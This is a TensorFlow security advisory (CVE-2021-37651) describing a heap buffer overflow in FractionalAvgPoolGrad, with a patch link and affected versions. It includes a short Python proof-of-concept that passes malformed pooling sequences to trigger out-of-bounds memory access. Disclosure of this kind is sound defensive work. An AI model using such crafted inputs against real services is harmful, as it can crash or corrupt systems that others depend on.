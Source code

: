 ## TFSA-2021-125: Heap buffer overflow in `FractionalAvgPoolGrad`

### CVE Number
CVE-2021-37651

### Impact
The implementation for `tf.raw_ops.FractionalAvgPoolGrad` can be tricked into
accessing data outside of bounds of heap allocated buffers:

```python
import tensorflow as tf

tf.raw_ops.FractionalAvgPoolGrad(
  orig_input_tensor_shape=[0,1,2,3],
  out_backprop = np.array([[[[541],[541]],[[541],[541]]]]),
  row_pooling_sequence=[0, 0, 0, 0, 0],
  col_pooling_sequence=[-2, 0, 0, 2, 0],
  overlapping=True)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/f24faa153ad31a4b51578f8181d3aaab77a1ddeb/tensorflow/core/kernels/fractional_avg_pool_op.cc#L205)
does not validate that the input tensor is non-empty. Thus, code constructs an
empty `EigenDoubleMatrixMap` and then accesses this buffer with indices that are
outside of the empty area.

### Patches
We have patched the issue in GitHub commit
[0f931751fb20f565c4e94aa6df58d54a003cdb30](https://github.com/tensorflow/tensorflow/commit/0f931751fb20f565c4e94aa6df58d54a003cdb30).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
